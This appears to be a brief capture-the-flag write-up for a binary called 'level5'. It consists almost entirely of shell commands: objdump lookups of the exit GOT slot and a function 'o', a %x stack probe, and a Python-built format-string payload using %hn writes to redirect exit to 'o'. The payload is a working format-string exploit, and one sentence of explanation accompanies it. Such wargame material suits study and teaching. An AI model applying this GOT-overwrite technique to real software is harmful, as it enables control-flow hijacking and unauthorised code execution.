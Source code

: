 ```shell
objdump -R ./level5 | grep exit
08049838 R_386_JUMP_SLOT   exit

objdump -t ./level5 | grep o
080484a4 g     F .text	0000001e              o

./level5
AAAA %x %x %x %x
AAAA 200 b7fd1ac0 b7ff37d0 41414141

(cat <(python -c 'print "\x40\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn"') -) | ./level5
```
Here we want to modify to address of `exit` with the address of `o`.
